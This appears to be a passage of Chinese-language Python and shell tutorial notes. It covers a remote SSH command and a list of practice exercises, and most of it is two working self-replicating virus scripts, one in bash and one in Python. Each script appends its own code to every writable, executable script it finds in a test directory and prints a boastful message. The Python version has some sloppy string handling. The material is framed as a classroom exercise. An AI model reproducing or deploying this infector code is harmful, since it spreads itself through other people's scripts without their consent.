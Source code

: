 ```python
    s.connect(hostname,port,username,pkey=key)  
    stdin,stdout,stderr = s.exec_command('df -h')  

    print stdout.read()  
    print stderr.read()  
    s.close()
```

## python 脚本实战
### for循环9*9
### 自定义模块，加载模式，使用模块的方法，数据（__name__）
### 使用subprocess模块完成病毒自我复制
### 使用subprocess模块完成批量添加用户
### 虚拟环境的搭建，激活和退出；第三方包的安装
---

病毒：（bash、python）
1. 判断当前病毒是否已经在运行，如果是，那么我就不再运行
2. 病毒感染对象为bash|python脚本(file )(Python script|Bourne-Again shell script)
3. 可执行的可写的[ -w file -a -x file ]
4. 感染病毒的脚本执行的时候会额外输出"I am evil！"
5. 病毒能够自我复制
6. 如果已经被感染，就不再感染
```shell
#!/bin/bash
if [ ! -f /tmp/.mybblock ];then touch /tmp/.mybblock; for i in `find /tmp/test/*` ; do grep "mybblock" $i &> /dev/null && continue ; file $i | grep "Bourne-Again shell script" &> /dev/null || continue ; [ -x $i -a -w $i ] || continue ; tail -n 1 $0 >> $i; done ; echo "hello,I am evil!"; rm -rf /tmp/.mybblock &> /dev/null ; fi
```

```python
#!/usr/bin/env python
import sys
from subprocess import *
test1=call('test -f /tmp/.mybb_lock', shell=True)
if test1 == 0: exit()
test2=call('touch /tmp/.mybb_lock',shell=True)
test_string=Popen('find /root/bash/*',shell=True,stdout=PIPE).communicate()[0]
test_list=test_string.split('\n')
del test_list[-1]
for file in test_list:
	file_string=open(file).read()
	if 'mybb' in file_string: continue
	test_wx=call(['test','-w',file,'-a','-x',file])
	if test_wx != 0 : continue
	test_python1=Popen(['file',file],stdout=PIPE)
	test_python2=Popen(['grep','Python script'],stdin=test_python1.stdout,stdout=PIPE)
	if test_python2.communicate()[0] == None:continue
	string=open(sys.argv[0]).read()
	infile_string=string.lstrip('#!/usr/bin/env python').lstrip()
	with open(file,'a') as infile:
		infile.write(infile_string)
print "I am superman"
file_del=call('rm -rf /tmp/.mybb_lock',shell=True)
```
